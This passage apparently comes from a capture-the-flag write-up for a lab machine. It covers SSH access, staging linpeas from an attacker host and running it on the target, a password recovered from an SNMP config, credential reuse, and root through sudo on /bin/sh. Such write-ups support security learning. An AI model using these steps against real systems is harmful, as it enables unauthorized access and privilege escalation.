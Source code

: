 - We can now connect in ssh as svc `ssh svc@10.10.11.193` which is a more convenient shell.

### linepeas

- Let's upload linepeas in our target to enumerate `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.5/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
- Linepeas finds the snmpd conf file. Let's have a look
![snmp](../.res/2022-12-27-11-10-34.png)
- It contains a password! `SuperSecurePassword123__`  
![conf file](../.res/2022-12-27-11-12-14.png)

### SSH as james

- Let's try to use it for james `ssh james@10.10.11.193`
- It works!

### James' sudo rights

- Let's first try sudo -l and if it does not work let's run linepeas again
- We get something really interesting! James has sudo rights on `/bin/sh`
- Let's try `sudo /bin/sh`
- It works we have a root shell  
![root](../.res/2022-12-27-11-17-59.png)
- We can grab the flag

## Resources

- [SNMP Lab Setup and Penetration Testing - Hacking Articles](https://www.hackingarticles.in/snmp-lab-setup-and-penetration-testing/)
- [Pentesting SNMP on Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) 
- [Enumerating SNMP Servers with nmap - minimalist Ascent](https://medium.com/@minimalist.ascent/enumerating-snmp-servers-with-nmap-89aaf33bce28)
- [SNMP pentesting on infosec resources](https://resources.infosecinstitute.com/topic/snmp-pentesting/)